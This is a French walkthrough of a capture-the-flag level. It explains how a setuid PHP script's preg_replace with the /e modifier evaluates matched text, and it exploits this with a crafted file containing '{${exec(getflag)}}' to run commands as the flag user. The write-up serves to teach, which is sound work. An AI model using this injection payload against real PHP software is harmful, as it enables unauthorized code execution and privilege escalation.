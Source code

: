 Je streamline ma procédure d'identification : 

```
$ id && pwd && ls -la
uid=2006(level06) gid=2006(level06) groups=2006(level06),100(users)
/home/user/level06
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

J'observe d'entrée de jeu un binaire `level06` et un fichier .php du même nom.

Je `cat` le fichier .php et j'exécute le binaire :

```
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

Je me penche sur le fichier .php et le commente ci-dessous :

```php
#!/usr/bin/php
<?php

// Takes an $m argument
function y($m) {
	// Replaces '.' with ' x ' in $m
	$m = preg_replace("/\./", " x ", $m); 
	// Replaces '@' with ' y' in $m
	$m = preg_replace("/@/", " y", $m); 
	
	return $m; 
}

// Takes two arguments $z and $y
function x($y, $z) {
	// Read the files content at the $y path and store it in $a
	$a = file_get_contents($y); 
	
	// The first argument is a Regex pattern to match from
	// with the "e" modifier, which evaluates the substitution (second arg) as PHP code.
	// The second argument is the function executed whose result
	// will be used to pattern match and replace.
	// So 'replace' 'what matches the regex' by 'result of y(2)' in '$a'
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

	// Replaces all squares brackets with parentheses
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	
	return $a; 
}

// Prints $r, which is the return value of the function x with the args passed to the file.
$r = x($argv[1], $argv[2]); print $r;

?>
```

D'après cette discussion : [Can someone explain the /e regex modifier?](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier) le modifier "/e" lors d'un matching de pattern regex avec la fonction `preg_replace` signifie que l'argument de substitution est évalué en PHP. Cette option est `deprecated` pour cette raison et présente une vulnérabilité.

Ici, cela signifie que ce qui match avec le premier argument:
- `(\[x (.*)\])` <- regex pattern

sera remplacé par l'exécution en PHP du second argument:
- `y(\"\\2\")` <- ici `\2` signifie que ce sera le deuxième match de la regex qui sera passé en argument à `y()`, le deuxième match étant la paire de parenthèses intérieure)

dans la string
- `$a`

---

Avec cette information, j'en déduit la vulnérabilité suivante :

1. Le programme commence par écouter les arguments en entrée, les passes à la fonction x, et print le résultat : `$r = x($argv[1], $argv[2]); print $r;`
2. Cela signifie que l'argument 1 représente `$y` dans `x()` , et le second `$z` dans `x()`.
3. Cela signifie que le `$y` doit représenter un fichier qui va être lu et stocké dans `$a` à l'intérieur de `x()`
4. Le second argument est inutilisé, je ne m'en soucie donc pas.

Puisque l'argument `$y` va être lu, et stocké dans `$a`, sur lequel sera appliqué la regex. 

- La regex en question:
`(\[x (.*)\])` signifie que l'ensemble du matching est capturé (`()` extérieures), dans ce match, on cherche `[` (précédé d'un `\` car `[` et `]` peuvent signifier autre chose en Regex), puis un `x`, puis un espace, et enfin on capture à nouveau (le fameux `\2` vu plus haut) la séquence : `.*` qui signifie : `any character except newline` pour le `.` et le `*` signifie `0 or more time`. Enfin, on match un `]` et fermons le premier groupe de capture. 

Supposons le fichier suivant :

```
# flag
[x pomme]
```

S'il était passé à la fonction `x()` elle capturerait dans `\1` : `[x pomme]` et dans `\2` : `pomme`.

Si je créé et passe ce fichier :

```
$ echo "[x pomme]" > /tmp/flag
$ ./level06 /tmp/flag
pomme
```

La ligne PHP :

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

Signifie que le premier argument matche `[x pomme]` et demande de remplacer le match par le résultat de `y(valeur_de_\2)`, donc par `pomme`.

Comme vu plus haut, le modifier `/e` évalue le code comme du PHP lors de la substitution, de plus, j'observe qu'au tout début, le binaire est exécuté par l'utilisateur `flag06`.

Si j'arrive donc à exécuter `getflag` depuis le PHP, j'aurais le retour de la commande depuis `flag06`.

Je remplace donc `pomme` dans mon fichier par :

```
[x {${exec(getflag)}}]
```

Puisque  l'argument que l'on passe à `y()` lors de la substitution est du PHP à évaluer à cause du modifier vulnérable, alors, en matchant `{${exec(getflag)}}` comme sous-groupe, PHP va tenter d'évaluer ce bout de code pour pouvoir le passer comme argument à `y()`.

Il tente cette évaluation due au `{}` parents. Appelé en PHP "Complex Curly Syntax". Une fois à l'intérieur, il évalue la valeur de la "fonction" `${...}`, cette dernière contenant `exec`, qui exécute un programme externe.

Si nous ne mettions pas les `{}` parents, alors `y()` recevrait `${exec(getflag)}` et PHP ne peut pas l'évaluer :

```
$ echo '[x ${exec(getflag)}]' > /tmp/flag && ./level06 /tmp/flag

PHP Parse error:  syntax error, unexpected '(' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Fatal error:  preg_replace(): Failed evaluating code:
y("${exec(getflag)}") in /home/user/level06/level06.php on line 4
```

Avec les `{}` parents :

```
$ echo '[x {${exec(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag

PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

Le code échoue la suite de son exécution, mais la substitution ayant bien été évaluée, elle est imprimée dans le message d'erreur et me confère donc la solution !








